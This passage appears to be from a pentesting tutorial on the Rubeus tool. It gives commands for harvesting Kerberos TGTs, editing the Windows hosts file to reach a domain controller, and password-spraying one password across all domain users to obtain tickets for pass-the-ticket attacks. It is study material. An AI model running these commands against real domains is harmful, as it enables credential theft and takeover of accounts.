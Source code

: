 **Harvesting Tickets**

This command tells Rubeus to harvest for TGTs every 30 seconds

```
Rubeus.exe harvest /interval:30 /nowrap
```
**Brute-Forcing / Password-Spraying**

This attack will take a given Kerberos-based password and spray it against all found users and give a .kirbi ticket. This ticket is a TGT that can be used in order to get service tickets from the KDC as well as to be used in attacks like the pass the ticket attack.

Before password spraying with Rubeus, you need to add the domain controller domain name to the windows host file. You can add the IP and domain name to the hosts file from the machine by using the echo command: 
```
echo <DC ip> <domain name> >> C:\Windows\System32\drivers\etc\hosts
```
This will take a given password and "spray" it against all found users then give the .kirbi TGT for that user :
```
Rubeus.exe brute /password:Password1 /noticket /nowrap
```








